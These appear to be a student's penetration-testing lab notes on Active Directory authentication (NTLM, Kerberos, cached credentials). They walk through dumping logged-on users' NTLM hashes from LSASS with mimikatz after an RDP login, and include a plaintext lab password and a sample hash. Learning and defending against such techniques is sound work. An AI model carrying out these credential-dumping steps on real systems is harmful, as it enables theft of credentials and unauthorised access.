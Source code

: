 ### NTLM Authentication
- NTLM authentication is used when a client authenticates to a server by IP address (instead of by hostname)
- or if the user attempts to authenticate to a hostname that is not registered on the Active Directory-integrated DNS server
- NTLM cannot be reversed. However, it is considered a fast-hashing algorithm since short passwords can be cracked quickly
- computer calculates a cryptographic hash, called the NTLM hash, from the user's password.
- client computer sends the username to the server, which returns a random value called the nonce or challenge
- client then encrypts the nonce using the NTLM hash, now known as a response, and sends it to the server

### Kerberos
- Microsoft's primary authentication mechanism 
- unlike NTLM where the client starts the auth with the server, kerberos uses the domain controller in the role of Key Distribution center, client starts auth with the KDC
- DC responds to client with AS-REP containing a session key and a Ticket Granting Ticket
- TGT contains information regarding the user, the domain, a timestamp, the IP address of the client, and the session key
- TGT is encrypted by a secret key (NTLM hash of the krbtgt account) known only to the KDC and cannot be decrypted by the client

### Cached AD credentials
- NTLM hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space
- need SYSTEM (or local administrator) permissions to gain access to the hashes stored on a target

```
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.214.75
```

start powershell as Administrator
```
cd C:\Tools
```

start mimikatz (we want NTLM hashes)
```
.\mimikatz.exe
```

engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account
```
privilege::debug
```

dump the credentials of all logged-on users
```
sekurlsa::logonpasswords

2688c6d2af5e9c7ddb268899123744ea
```

#### we can try using mimikatz to exploit Kerberos authentication by abusing TGT and service tickets
